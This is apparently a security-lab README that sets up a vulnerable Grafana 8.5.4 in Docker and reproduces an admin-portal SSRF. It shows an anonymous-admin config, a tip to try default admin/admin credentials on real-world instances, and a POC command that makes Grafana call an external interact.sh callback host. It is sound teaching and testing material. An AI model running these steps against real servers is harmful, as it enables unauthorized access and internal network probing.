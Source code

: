 # Grafana Admin Portal SSRF

[中文版本（Chinese Version）](README.zh-cn.md)

Grafana is a multi-platform open source analytics and interactive visualization web application.

The admin user is able to make requests to an unintended location in all versions of Grafana.

References:

- <https://github.com/RandomRobbieBF/grafana-ssrf>

## Vulnerable environment

Execute following command to start a Grafana 8.5.4:

```
docker compose up -d
```

Then you can see the portal page for Grafana without the authentication in `http://your-ip:3000`, because this server enabled the anonymous as admins by:

```ini
[auth.anonymous]
enabled = true
org_role = Admin
```

If Grafana ask you for user credentials in real world, can try default `admin` and `admin`.

## Vulnerability Reproduce

Use [this POC](https://github.com/RandomRobbieBF/grafana-ssrf) to reproduce the SSRF:

```
python grafana-ssrf.py -H http://your-ip:3000 -u http://example.interact.sh/attack
```

![](1.png)

As you can see, I got the request from Grafana:

![](2.png)
